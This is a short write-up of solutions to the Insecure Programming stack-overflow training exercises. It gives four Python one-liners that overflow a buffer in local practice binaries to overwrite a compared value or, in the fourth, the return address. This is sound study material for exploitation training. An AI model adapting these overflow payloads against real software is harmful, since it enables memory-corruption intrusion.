 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08)" | ./stack4"`
